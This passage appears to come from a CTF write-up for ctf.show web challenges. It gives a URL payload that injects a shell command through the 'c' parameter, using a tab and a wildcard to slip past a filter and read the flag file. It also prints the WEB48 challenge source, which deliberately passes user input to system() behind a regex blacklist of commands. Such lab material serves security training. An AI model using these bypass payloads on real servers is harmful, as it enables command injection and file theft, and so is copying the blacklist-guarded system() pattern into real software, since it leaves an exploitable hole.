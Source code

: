 ```php
http://26a6634b-a22b-4009-8819-254d74b86058.challenge.ctf.show/?c=nl%09fla?.php||
```

<figure><img src="../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">(20)WEB48</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
